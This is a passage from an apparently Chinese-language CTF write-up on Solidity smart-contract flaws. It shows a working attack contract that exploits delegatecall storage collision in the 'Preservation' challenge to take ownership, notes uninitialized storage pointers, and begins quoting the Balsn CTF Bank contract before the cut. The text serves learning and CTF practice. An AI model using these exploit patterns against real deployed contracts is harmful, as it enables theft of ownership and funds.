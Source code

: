 ```js
  }
}
```

恶意合约第一次调用 `setFirstTime` 传入自己的地址，`Preservation` 合约调用 `LibraryContract` 将 `_time` 覆盖给 `timeZone1Library`，然后构造恶意合约自己的 `setTime` 替换 owner，只需要注意 owner 在 slot 2。

```js
contract attack {
    uint public foo1;
    uint public foo2;
    address public owner;
    address target_addr = 0xf8e81D47203A594245E36C48e151709F0C19fBe8;
    Preservation public target = Preservation(target_addr);
    function attack1() {
        target.setFirstTime(uint(address(this)));
    }
    function attack2(address self) {
        target.setFirstTime(uint(self));
    }
    function setTime(uint _time) public {
        foo1 = _time;
        foo2 = _time;
        owner = address(_time);
    }
}
```

## Uninitialized Storage Pointer

在函数中未申明 `memory` 的变量且未初始化时会从 slot 0开始一一覆盖。
虽然但是这一点 remix IDE 直接在编译的时候就给你警告了hh。

## Arbitrary Writing

主要跟 Ethereum 的 Storage 存储有关。

看道例子： 2019 Balsn CTF Bank。

```js
pragma solidity ^0.4.24;

contract Bank {
    event SendEther(address addr);
    event SendFlag(address addr);
    
    address public owner;
    uint randomNumber = 297324972;
    
    constructor() public {
        owner = msg.sender;
    }
    
    struct SafeBox {
        bool done;
        function(uint, bytes12) internal callback;
        bytes12 hash;
        uint value;
    }
    SafeBox[] safeboxes;
    
    struct FailedAttempt {
        uint idx;
        uint time;
        bytes12 triedPass;
```